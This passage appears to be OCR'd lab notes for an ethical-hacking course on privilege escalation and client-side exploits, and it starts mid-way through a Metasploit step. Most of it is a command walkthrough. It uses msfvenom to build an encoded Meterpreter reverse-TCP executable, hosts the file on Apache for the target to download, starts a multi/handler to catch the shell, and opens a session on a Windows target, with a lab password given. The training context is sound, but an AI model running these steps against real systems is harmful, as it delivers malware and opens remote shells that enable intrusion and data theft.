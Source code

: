     set RHOSTS <TARG> 

    exploit 



#Priv Esc

TASK 1: ESCALATE PRIVILEGES USING PRIVILEGE ESCALATION TOOLS AND EXPLOIT CLIENT-SIDE VULNERABILITIES 

 

    Go to parrot : msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=<host_ip> -f exe > /home/attacker/Desktop/Exploit.exe > Enter. 

    Exploit.exe will be saved as location /home/attacker/Desktop ( other loc maybe) 

    Now this exploit is to be shared on target machine 

    If you want to create a new directory to share the Exploit.exe file with the target machine and provide the permissions, use the below commands:  

        Type mkdir /var/www/html/share and press Enter to create a shared folder 

        Type chmod -R 755 /var/www/html/share and press Enter 

        Type chown -R www-data:www-data /var/www/html/share and press Enter 

    Type ls -la /var/www/html/ | grep share > Enter 

    Copy : cp /home/attacker/Desktop/Exploit.exe /var/www/html/share/ press Enter 

    Type : service apache2 start > Enter 

    Type : msfconsole 

    Type : use exploit/multi/handler > Enter 

    Now, issue the following commands in msfconsole:  

         Type: set payload windows/meterpreter/reverse_tcp and press Enter to set a payload. 

        Type: set LHOST <host_ip> and press Enter to set the localhost. 

    To start the handler : exploit -j -z > Enter 

    Now go to windows/<target_ip> login Admin , pass: Pa$$w0rd 

    Browser : http://<host_ip>/share > enter 

    Click Exploit.exe and download 

    Double click and run Exploit.exe 

    Return to parrot os : We will see meterpreter session open in terminal 

    Type : sessions -i 1 

    Type : getuid > Enter ( Observe that the Meterpreter session is running with normal user privileges (WINDOWS11\Admin)) 

    • Now that you have gained access to the target system with normal user privileges, your next task is to perform privilege escalation to attain higher-level privileges in the target system. 
